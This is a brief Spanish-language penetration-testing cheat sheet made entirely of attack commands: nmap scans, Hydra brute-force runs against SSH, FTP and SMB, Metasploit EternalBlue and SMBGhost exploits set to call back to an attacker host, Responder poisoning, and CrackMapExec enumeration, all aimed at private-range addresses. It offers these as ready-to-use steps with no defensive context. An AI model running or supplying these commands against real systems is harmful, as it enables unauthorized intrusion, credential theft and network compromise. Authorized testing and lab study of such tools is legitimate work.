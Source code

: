 #### nmap
```bash
# Escaneo de ping
nmap -sn 192.168.1.0/24

# Escaneo de puertos
nmap -sS -p 1-65535 192.168.1.100

# Escaneo de servicios
nmap -sV -sC 192.168.1.100

# Escaneo de OS
nmap -O 192.168.1.100
```

#### Hydra
```bash
# Fuerza bruta SSH
hydra -l admin -P passwords.txt ssh://192.168.1.100

# Fuerza bruta FTP
hydra -L users.txt -P passwords.txt ftp://192.168.1.100

# Fuerza bruta SMB
hydra -l admin -P passwords.txt smb://192.168.1.100
```

#### Metasploit
```bash
# EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
exploit

# SMBGhost
use exploit/windows/smb/cve_2020_0796_smbghost
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
exploit
```

#### Responder
```bash
# Iniciar Responder
responder -I eth0 -wrf

# Configurar archivo
nano /etc/responder/Responder.conf
```

#### CrackMapExec
```bash
# Enumerar usuarios
crackmapexec smb 192.168.1.100 --users

# Enumerar grupos
crackmapexec smb 192.168.1.100 --groups

# Enumerar shares
crackmapexec smb 192.168.1.100 --shares
```
